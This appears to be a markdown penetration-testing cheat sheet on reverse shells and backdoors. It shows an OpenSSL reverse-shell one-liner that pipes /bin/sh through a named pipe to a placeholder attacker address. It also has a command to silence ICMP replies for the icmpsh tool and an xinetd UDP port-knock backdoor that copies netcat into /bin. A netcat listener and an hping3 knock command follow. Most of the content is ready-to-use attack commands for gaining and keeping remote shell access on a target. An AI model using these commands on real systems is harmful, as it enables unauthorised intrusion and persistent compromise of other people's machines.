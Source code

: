 # OpenSSL Reverse Shell
[Generate OpenSSL Certificate](../../SSL/OpenSSL/README.md#Generate-SSL-Certificate)
[Start OpenSSL Listener](../../SSL/OpenSSL/README.md#Start-OpenSSL-Listener)
##### From Target, create named pipe and OpenSSL client to connect to Attack Machine.
```bash
# On Target
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect <Attack IP ADdress>:443 > /tmp/x; rm /tmp/x
```

# ICMP Reverse Shell with icmpsh
##### Disable ICMP replies by the OS
```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
## ICMP Reverse Shell References
[Github icmpsh](https://github.com/bdamele/icmpsh)

[Pentestlab Blog](https://pentestlab.blog/tag/icmpsh/)

[Security Online](https://securityonline.info/icmpsh-simple-reverse-icmp-shell/)

# Xinetd UDP Portknock Backdoor
##### [On Target, create xinetd service](https://gist.github.com/anonymous/3cb8e474b6bb3fd3787bda1e1a55cf56)
It requires that netcat is on the target, in the /bin directory.  It copies netcat to file /bin/services.udp.
##### Start netcat listener on Attack machine
```bash
nc -lnvp <Port #>
```
##### Send a single UDP packet to target, "knocking," and causing the target to establish a reverse shell.
```bash
hping3 -2 -c 1 <Target IP Address> -p 65534
```

# References
[HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[Staged vs Stageless Handlers](https://buffered.io/posts/staged-vs-stageless-handlers/)